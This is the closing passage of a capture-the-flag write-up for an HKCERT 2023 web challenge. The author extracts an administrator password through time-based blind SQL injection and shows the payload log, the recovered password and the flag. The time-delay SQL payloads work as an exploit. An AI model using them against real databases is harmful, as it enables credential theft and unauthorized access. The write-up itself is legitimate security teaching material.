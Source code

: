As you can see, some digits took a little longer to be executed.

> Note: Digit `0` always get executed. Also, the execution time gets progressively shorter, I have no clue why this is happening.

**Hence, we can determine which digits are correct.**

**In our case, the correct password is `0557192864287807`:**
```shell
[*] Payload: IF(SUBSTR(password,1,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 7.76973 seconds | digit: 0 | position: 1
[*] Payload: IF(SUBSTR(password,2,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 5.67535 seconds | digit: 5 | position: 2
[*] Payload: IF(SUBSTR(password,3,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 5.91817 seconds | digit: 5 | position: 3
[*] Payload: IF(SUBSTR(password,4,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 5.15217 seconds | digit: 7 | position: 4
[*] Payload: IF(SUBSTR(password,5,1)=1,BENCHMARK(100000,SHA1(1337)),0) | took 4.71980 seconds | digit: 1 | position: 5
[*] Payload: IF(SUBSTR(password,6,1)=9,BENCHMARK(100000,SHA1(1337)),0) | took 4.89355 seconds | digit: 9 | position: 6
[*] Payload: IF(SUBSTR(password,7,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 4.57795 seconds | digit: 2 | position: 7
[*] Payload: IF(SUBSTR(password,8,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 3.64779 seconds | digit: 8 | position: 8
[*] Payload: IF(SUBSTR(password,9,1)=6,BENCHMARK(100000,SHA1(1337)),0) | took 3.23760 seconds | digit: 6 | position: 9
[*] Payload: IF(SUBSTR(password,10,1)=4,BENCHMARK(100000,SHA1(1337)),0) | took 2.92061 seconds | digit: 4 | position: 10
[*] Payload: IF(SUBSTR(password,11,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 2.18108 seconds | digit: 2 | position: 11
[*] Payload: IF(SUBSTR(password,12,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 2.03635 seconds | digit: 8 | position: 12
[*] Payload: IF(SUBSTR(password,13,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 1.59135 seconds | digit: 7 | position: 13
[*] Payload: IF(SUBSTR(password,14,1)=8,BENCHMARK(100000,SHA1(1337)),0) | took 1.11044 seconds | digit: 8 | position: 14
[*] Payload: IF(SUBSTR(password,15,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 8.34426 seconds | digit: 0 | position: 15
[*] Payload: IF(SUBSTR(password,16,1)=7,BENCHMARK(100000,SHA1(1337)),0) | took 0.23968 seconds | digit: 7 | position: 16
```

**Finally, we can login to the `Administrator` account!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113223007.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113223014.png)

**And read its secret note!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113223036.png)

- **Flag: `hkcert23{17_15_n07_50_53cr37_4f73r_4ll}`**

## Conclusion

What we've learned:

1. Exploiting conditional time-based SQL injection & filter bypass